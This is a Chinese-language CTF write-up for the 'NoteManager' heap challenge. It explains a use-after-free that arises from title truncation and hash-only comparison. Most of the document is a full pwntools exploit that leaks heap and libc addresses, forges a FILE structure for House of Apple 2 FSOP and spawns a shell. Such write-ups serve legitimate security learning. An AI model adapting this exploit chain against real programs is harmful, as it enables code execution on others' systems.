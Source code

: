 # NoteManager 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.7|

## 解题思路

经典菜单题，但是有一个头节点作为“全局变量”，使用链表来存放各个节点。
判断两个节点是否相同有2个方法：比较哈希值和字符串内容。审计代码不难发现，
在删除节点时如果存在两个相同节点，就能产生uaf（以下配图暂时忽略哈希机制）

![note delete](assets/notedel.png)

除了在新增时使用哈希和`strcmp`同时判断，其余操作只判断哈希是否相同，
那么如何找到一个哈希相同，而`strcmp`也相同的两个字符串呢？

> 一开始我的想法是哈希碰撞，爆了一晚上没爆出来，早上起来想到肯定不是这么做的

再次审计代码，发现有漏洞可循：

```c
...
    // 读入title时长度是原长
    pcVar2 = fgets(title,0x100,stdin);
...
    // 计算哈希时长度是原长
    hasher = hash(title);
        for (cnote = *gnote; cnote != NULL; cnote = cnote->prev) {
            // 判断strcmp时用的是原长
            if ((cnote->hash == hasher) && (iVar1 = strcmp(cnote->title,title), iVar1 == 0)) {
...
        // 但是做字符串拷贝的时候只取了0x1f长
        strncpy((char *)note,title,0x1f);
...
```

由此可以得知，只要输入长度超过31的字符串，那么输入时就不会被判为相同，
同时它们的哈希值也是一样的，那么我们就能构造出上图的条件做uaf了

有了uaf就可以考虑怎么泄露了。首先输入的内容长度可以达到0x1000，
而稍后使用的`strdup`实际上会调用`malloc`产生chunk，size就是输入内容的长度，
因此可以很轻松地得到libc和heap基地址

最后起一个shell，用House of Apple 2打FSOP即可

> 一开始用onegadget，结果试了一圈都不行

edit时使用`strcpy`，所以需要一个`\0`一个`\0`地写

此外在造成uaf利用后，无法再写入2+个堆块，而想要利用uaf则需要2个堆块，
因此应一口气分配好相关堆块，最后利用uaf。以下是图示

![note add warning](assets/noteadd.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './NoteManager'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.7_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(title:bytes, cont:bytes):
        sh.sendlineafter(b'Choose', b'1')
        sh.sendlineafter(b'title', title)
        sh.sendlineafter(b'content', cont)

    def deln(title:bytes):
        sh.sendlineafter(b'Choose', b'2')
        sh.sendlineafter(b'title', title)

    def edit(title:bytes, cont:bytes):
        sh.sendlineafter(b'Choose', b'3')
        sh.sendlineafter(b'title', title)
        sh.sendlineafter(b'content', cont)

    def show() -> bytes:
        sh.sendlineafter(b'Choose', b'4')
        sh.recvuntil(b'option: ')
        return sh.recvuntil(b'NoteManager', True)

    def eout():
        sh.sendlineafter(b'Choose', b'5')

    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr

    addn(b'root', b'!')
    addn(b'fake file', b't'*0x100)
    addn(b'0'*33, b'x'*0x18)
    addn(b'0'*33, b'x'*0x500)
    addn(b'1'*33, b'x'*0x28) # guard chunk to prevent 0x500-size chunk being merged
    addn(b'1'*33, b'x')
    addn(b'head', b'head')
    deln(b'0'*33)
    val = show()

    # look for 4rd Title
    idx = val.find(b'Title: ', 5)
    idx = val.find(b'Title: ', idx + 5)
    idx = val.find(b'Title: ', idx + 5)
    heapBase = u64(val[idx + 7:idx + 12] + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    arena = 0x21ac80
    idx = val.find(b'Content: ', idx)
    mainArena = u64(val[idx + 9:idx + 15] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - arena
    libc.address = libcBase
    oneGadget = libcBase + 0x10d9c2
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))

    def write0(content:bytes, offset:int):
        for leng, b in enumerate(content):
            if b == 0:
                break
        for i in range(7, leng, -1):
            edit(b'fake file', b'0'*(offset + i) + b'\0')
        edit(b'fake file', b'0'*offset + content)

    write0(p64(heapBase + 0x360), 0xe0)
    write0(p64(libc.symbols['_IO_wfile_jumps']), 0xd8)
    write0(p64(0), 0xc0)
    write0(p64(heapBase + 0x360), 0xa0)
    write0(p64(libc.symbols['system']), 0x68)
    write0(p64(0), 0x30)
    write0(p64(1), 0x28)
    write0(p64(0), 0x20)
    write0(p64(0), 0x18)
    write0(b'  sh;\0', 0)

    deln(b'root')
    deln(b'1'*33)
    edit(b'1'*33, p64(PROTECT_PTR(heapBase + 0x9c0, libc.symbols['_IO_list_all'])))
    addn(b'adjusting', b'x')
    addn(b'more adjust', p64(heapBase + 0x360))

    eout()
    sh.clean()
    sh.interactive()
```

